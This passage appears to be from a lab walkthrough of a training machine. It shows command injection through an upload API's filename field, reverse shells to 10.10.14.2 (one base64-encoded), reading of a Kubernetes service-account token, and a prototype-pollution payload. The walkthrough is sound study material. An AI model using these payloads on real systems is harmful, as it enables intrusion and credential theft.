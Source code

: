 It is just setting variables, and then calling `exec` on `gsutil`. This immediately looks vulnerable to command injection.

We can inject with this payload:
```bash
curl -X POST http://10.10.10.235:31337/upload -H 'content-type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; ping -c 1 10.10.14.2"}'
{"ok":true,"Uploaded_File":"x; ping -c 1 10.10.14.2"}


curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.2/1337 0>&1\""}'
```

IppSec Reverse
```
echo 'bash -i >& /dev/tcp/10.10.14.2/1337 0>&1' | base64 -w 0

"filename": "; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzEzMzcgMD4mMQo= | base64 -d | bash"}
```

### Privilege Escalation

Port 8443 indicate us that we are on a kubernet.

We can use [peirates](https://github.com/inguardians/peirates) or kubectl to enumerate k8s.

We can list namespaces according to kubectl.
```
# Showing what we can list
./kubectl auth can-i --list
```

We can get the k8 token in `/run/secrets/kubernetes.io/serviceaccount/token`.

Enumerating with kubectl.
```
./kubectl get namespaces

./kubectl auth can-i --list -n dev

./kubectl get pods -n dev

./kubectl describe pod devnode-deployment-776dbcf7d6-7gjgf -n dev
10.42.0.66:3000

./kubectl describe pod devnode-deployment-776dbcf7d6-sr6vj -n dev
10.42.0.64:3000

./kubectl describe pod devnode-deployment-776dbcf7d6-g4659 -n dev
10.42.0.71:3000
```

We enumerate that dev is running at 172.17.0.5:3000 and it seems to be the same application, so we can repeat the shell process.
```
curl -X PUT  http://10.42.0.66:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'

curl -X POST http://10.42.0.66:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.2/3333 0>&1\""}'
```
